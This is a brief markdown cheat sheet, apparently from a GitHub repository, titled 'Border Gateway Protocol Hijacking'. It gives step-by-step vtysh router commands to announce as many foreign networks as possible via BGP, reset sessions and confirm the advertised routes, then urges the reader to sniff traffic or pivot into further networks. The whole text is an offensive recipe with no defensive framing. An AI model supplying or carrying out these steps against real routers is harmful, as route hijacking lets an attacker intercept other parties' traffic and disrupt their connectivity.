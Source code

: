 # Border Gateway Protocol Hijacking (BGP)

### STEPS/COMMANDS:

#### 1) Run BGP config shell

    vtysh

#### 2) 

    config terminal

#### 3) 

    router bgp NUM

#### 4) You can try to route as many networks as you can find

    network HOST/CIDR

#### 5) 

    end

#### 6) 

    clear ip bgp *

#### 7) Check on the route

    show ip bgp neighbors YOUR_IP advertised-routes 

#### 8) Now you can sniff network traffic, or pivot further through more networks!
